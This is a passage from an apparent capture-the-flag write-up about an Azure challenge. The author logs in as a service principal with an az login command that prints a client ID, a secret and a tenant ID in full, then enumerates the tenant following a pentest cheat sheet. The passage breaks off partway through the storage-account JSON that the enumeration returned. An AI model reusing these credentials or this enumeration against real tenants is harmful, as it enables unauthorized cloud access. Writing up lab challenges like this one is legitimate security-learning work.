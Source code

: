 Then I followed https://learn.microsoft.com/en-us/cli/azure/authenticate-azure-cli to sign in with the information I have. The sign in cmd is `az login --service-principal -u ee92075f-4ddc-4522-a12c-2bc0ab874c85 -p kmk8Q~mGYD9jNfgm~rcIOMRgiC9ekKtNEw5GPaS7 --tenant 83e595f4-f086-4f2f-9de8-d698b6012093`.

Then I followed https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Cloud%20-%20Azure%20Pentest.md#enumerate-tenant-with-az-cli and enumerated things. Only `az storage account list` returned something:
```json
[
  {
    "accessTier": "Hot",
    "allowBlobPublicAccess": true,
    "allowCrossTenantReplication": true,
    "allowSharedKeyAccess": true,
    "allowedCopyScope": null,
    "azureFilesIdentityBasedAuthentication": null,
    "blobRestoreStatus": null,
    "creationTime": "2022-11-18T03:22:43.820513+00:00",
    "customDomain": null,
    "defaultToOAuthAuthentication": false,
    "dnsEndpointType": null,
    "enableHttpsTrafficOnly": true,
    "enableNfsV3": false,
    "encryption": {
      "encryptionIdentity": null,
      "keySource": "Microsoft.Storage",
      "keyVaultProperties": null,
      "requireInfrastructureEncryption": null,
      "services": {
        "blob": {
          "enabled": true,
          "keyType": "Account",
          "lastEnabledTime": "2022-11-18T03:22:44.648613+00:00"
        },
        "file": {
          "enabled": true,
          "keyType": "Account",
          "lastEnabledTime": "2022-11-18T03:22:44.648613+00:00"
        },
        "queue": null,
        "table": null
      }
    },
    "extendedLocation": null,
    "failoverInProgress": null,
    "geoReplicationStats": null,
    "id": "/subscriptions/bb11df92-eff5-47b6-b940-a3ce6ded6431/resourceGroups/meow-olympurr-resource-group/providers/Microsoft.Storage/storageAccounts/meowolympurr",
    "identity": {
      "principalId": null,
      "tenantId": null,
      "type": "None",
      "userAssignedIdentities": null
    },
    "immutableStorageWithVersioning": null,
    "isHnsEnabled": false,
    "isLocalUserEnabled": null,
    "isSftpEnabled": null,
    "keyCreationTime": {
      "key1": "2022-11-18T03:22:43.898664+00:00",
      "key2": "2022-11-18T03:22:43.898664+00:00"
    },
    "keyPolicy": null,
```